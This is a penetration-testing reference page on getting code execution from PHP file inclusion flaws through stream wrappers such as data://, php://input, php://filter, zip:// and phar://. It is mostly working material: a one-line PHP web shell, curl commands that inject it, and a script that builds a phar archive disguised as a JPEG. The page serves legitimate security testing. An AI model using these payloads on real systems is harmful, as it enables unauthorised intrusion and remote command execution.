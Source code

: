 # PHP wrappers and streams

<details>

<summary>data://</summary>

The attribute `allow_url_include` must be set. This configuration can be checked in the `php.ini` file.

{% code overflow="wrap" %}
```bash
# Shell in base64 encoding
echo "<?php system($_GET['cmd']); ?>" | base64

# Accessing the log file via LFI
curl --user-agent "PENTEST" "$URL/?parameter=data://text/plain;base64,$SHELL_BASE64&cmd=id"
```
{% endcode %}

</details>

<details>

<summary>php://input</summary>

The attribute `allow_url_include` should be set. This configuration can be checked in the `php.ini` file.

{% code overflow="wrap" %}
```bash
# Testers should make sure to change the $URL
curl --user-agent "PENTEST" -s -X POST --data "<?php system('id'); ?>" "$URL?parameter=php://input"
```
{% endcode %}

</details>

<details>

<summary>php://filter</summary>

The `filter` wrapper doesn't require the `allow_url_include` to be set. This works on default PHP configuration `allow_url_include=off`.

{% code overflow="wrap" %}
```bash
# Testers should make sure to change the $URL, $FILTERS with the chaining that generates their payload and $FILE with the path to the file they can read.
curl --user-agent "PENTEST" "$URL?parameter=php://filter/$FILTERS/resource=$FILE"
```
{% endcode %}

The research article "[PHP filters chain: What is it and how to use it](https://www.synacktiv.com/publications/php-filters-chain-what-is-it-and-how-to-use-it.html)" from Synacktiv, and [the original writeup](https://gist.github.com/loknop/b27422), go into the details of that technique.

</details>

<details>

<summary>except://</summary>

The `except` wrapper doesn't required the `allow_url_include` configuration, the `except` extension is required instead.

```bash
curl --user-agent "PENTEST" -s "$URL/?parameter=except://id"
```

</details>

<details>

<summary>zip://</summary>

The prerequisite for this method is to be able to [upload a file](../../../../web-services/attacks-on-inputs/unrestricted-file-upload.md).

{% code overflow="wrap" %}
```bash
echo "<?php system($_GET['cmd']); ?>" > payload.php
zip payload.zip payload.php

# Accessing the log file via LFI (the # identifier is URL-encoded)
curl --user-agent "PENTEST" "$URL/?parameter=zip://payload.zip%23payload.php&cmd=id"
```
{% endcode %}

</details>

<details>

<summary>phar://</summary>

The prerequisite for this method is to be able to [upload a file](../../../../web-services/attacks-on-inputs/unrestricted-file-upload.md).

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

The tester need to compile this script into a `.phar` file that when called would write a shell called `shell.txt` .

```bash
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

Now the tester has a `phar` file named `shell.jpg` and he can trigger it through the `phar://` wrapper.

{% code overflow="wrap" %}
```bash
curl --user-agent "PENTEST" "$URL/?parameter=phar://./shell.jpg%2Fshell.txt&cmd=id"
```
{% endcode %}

</details>
